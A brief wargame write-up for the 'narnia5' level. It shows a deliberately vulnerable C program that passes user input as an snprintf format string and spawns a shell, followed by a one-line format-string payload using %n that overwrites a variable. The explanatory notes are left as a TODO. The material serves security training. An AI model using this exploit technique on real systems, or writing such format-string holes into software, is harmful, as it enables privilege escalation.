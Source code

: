# narnia5

## Objective
Change variable ```i``` to equal 500.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){
	int i = 1;
	char buffer[64];

	snprintf(buffer, sizeof buffer, argv[1]);
	buffer[sizeof (buffer) - 1] = 0;
	printf("Change i's value from 1 -> 500. ");

	if(i==500){
		printf("GOOD\n");
	        setreuid(geteuid(),geteuid());
		system("/bin/sh");
	}

	printf("No way...let me give you a hint!\n");
	printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
	printf ("i = %d (%p)\n", i, &i);

	return 0;
}

```

## Solution
This challenge would be trivial with a buffer overflow exploit. However, this is
not possible because ```snprintf``` is used. Thus, we must use a format string
exploit!


(TODO: insert notes explaining solution!)

```
/narnia/narnia5 $(python -c "print '\xc0\xd6\xff\xff\xc0\xd6\xff\xff%492x%n'")
```

